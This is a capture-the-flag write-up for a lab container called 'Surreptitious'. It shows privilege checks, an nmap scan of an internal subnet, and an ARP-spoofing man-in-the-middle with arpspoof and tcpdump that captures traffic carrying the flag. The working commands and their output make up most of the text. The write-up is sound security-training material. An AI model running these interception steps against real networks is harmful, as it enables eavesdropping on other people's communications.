 # Write-up Surreptitious

## Connect to machine through ssh to simpleuser user account
## `sudo -l` to identify you are actually root on the machine (which is a container)
```
User simpleuser may run the following commands on 1fe4763887c9:
    (ALL) ALL
```

## indentify ip_forward flag is set
```
$ cat /proc/sys/net/ipv4/ip_forward
1
```

## identify we have some nice capabilities `cap_net_raw`
```
[root@78241d3a3c31 simpleuser]# cat /proc/$$/status | grep Cap
CapInh: 0000000000000000
CapPrm: 00000000800425fb
CapEff: 00000000800425fb
CapBnd: 00000000800425fb
CapAmb: 0000000000000000
[root@78241d3a3c31 simpleuser]# capsh --decode=00000000800425fb
0x00000000800425fb=cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_setfcap
```
This means we can do ARP poisonning.

## `sudo -s` to elevate privileges
## install some nice tools:
- `iproute` for retrieving current ip adress, subnet and interfaces
- `nmap` for scanning the backend subnet
- `dsniff` for arpspoof
- `net-tools` for displaying arp tables
- `tcpdump` for dumping intercepted traffic
# scan the backend network
Identify backend subnet is `10.89.0.3/24`:
```
[root@78241d3a3c31 simpleuser]# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host proto kernel_lo 
       valid_lft forever preferred_lft forever
2: eth0@if5: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 1a:a7:cf:9b:c4:f7 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.89.0.3/24 brd 10.89.0.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::18a7:cfff:fe9b:c4f7/64 scope link proto kernel_ll 
       valid_lft forever preferred_lft forever
```
scan the subnet and identify 4 machines:
```
[root@78241d3a3c31 simpleuser]# nmap 10.89.0.3/24
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-01 12:25 UTC
Nmap scan report for 10.89.0.1
Host is up (0.0000030s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE
2222/tcp open  EtherNetIP-1
MAC Address: C6:F9:21:D2:BD:E6 (Unknown)

Nmap scan report for 10.89.0.2
Host is up (0.0000030s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE
4444/tcp open  krb524
MAC Address: 22:3C:D7:81:E0:64 (Unknown)

Nmap scan report for 10.89.0.4
Host is up (0.0000030s latency).
All 1000 scanned ports on 10.89.0.4 are in ignored states.
Not shown: 1000 closed tcp ports (reset)
MAC Address: 46:E8:11:A2:D8:D5 (Unknown)

Nmap scan report for 78241d3a3c31 (10.89.0.3)
Host is up (0.0000030s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 256 IP addresses (4 hosts up) scanned in 2.21 seconds
```
We identify:
- the gateway `10.89.0.1` with port 2222 open
- a server `10.89.0.2` with port 4444 open
- our machine `10.89.0.3` with port 22 open
- another machine `10.89.0.4` with no open port

## intercept communication
We assume another machine is talking to the server.
We will run an arp spoofing attack to intercept communication and on a second session capture the traffic with tcpdump.
```
[root@78241d3a3c31 simpleuser]# arpspoof -i eth0 -c both -t 10.89.0.2 -r 10.89.0.4                                     
1a:a7:cf:9b:c4:f7 22:3c:d7:81:e0:64 0806 42: arp reply 10.89.0.4 is-at 1a:a7:cf:9b:c4:f7                               
1a:a7:cf:9b:c4:f7 46:e8:11:a2:d8:d5 0806 42: arp reply 10.89.0.2 is-at 1a:a7:cf:9b:c4:f7                               
1a:a7:cf:9b:c4:f7 22:3c:d7:81:e0:64 0806 42: arp reply 10.89.0.4 is-at 1a:a7:cf:9b:c4:f7                               
1a:a7:cf:9b:c4:f7 46:e8:11:a2:d8:d5 0806 42: arp reply 10.89.0.2 is-at 1a:a7:cf:9b:c4:f7                               
1a:a7:cf:9b:c4:f7 22:3c:d7:81:e0:64 0806 42: arp reply 10.89.0.4 is-at 1a:a7:cf:9b:c4:f7                               
1a:a7:cf:9b:c4:f7 46:e8:11:a2:d8:d5 0806 42: arp reply 10.89.0.2 is-at 1a:a7:cf:9b:c4:f7                               
1a:a7:cf:9b:c4:f7 22:3c:d7:81:e0:64 0806 42: arp reply 10.89.0.4 is-at 1a:a7:cf:9b:c4:f7                               
1a:a7:cf:9b:c4:f7 46:e8:11:a2:d8:d5 0806 42: arp reply 10.89.0.2 is-at 1a:a7:cf:9b:c4:f7                               
1a:a7:cf:9b:c4:f7 22:3c:d7:81:e0:64 0806 42: arp reply 10.89.0.4 is-at 1a:a7:cf:9b:c4:f7                               
1a:a7:cf:9b:c4:f7 46:e8:11:a2:d8:d5 0806 42: arp reply 10.89.0.2 is-at 1a:a7:cf:9b:c4:f7
```
Other session:
```
[root@78241d3a3c31 simpleuser]# tcpdump -w output.pcap
dropped privs to tcpdump
tcpdump: listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
^C71 packets captured
71 packets received by filter
0 packets dropped by kernel
```

Retrieve through scp the file and open in a nice graphical Wireshark UI.
```
[root@78241d3a3c31 simpleuser]# chmod 777 output.pcap
```
```
$ scp -P 2222 simpleuser@localhost:output.pcap .
simpleuser@localhost's password: 
output.pcap                                                                          100% 5152     3.8MB/s   00:00
```

With wireshark gui, look at TCP communcations on port 4444 and see flag transitting.
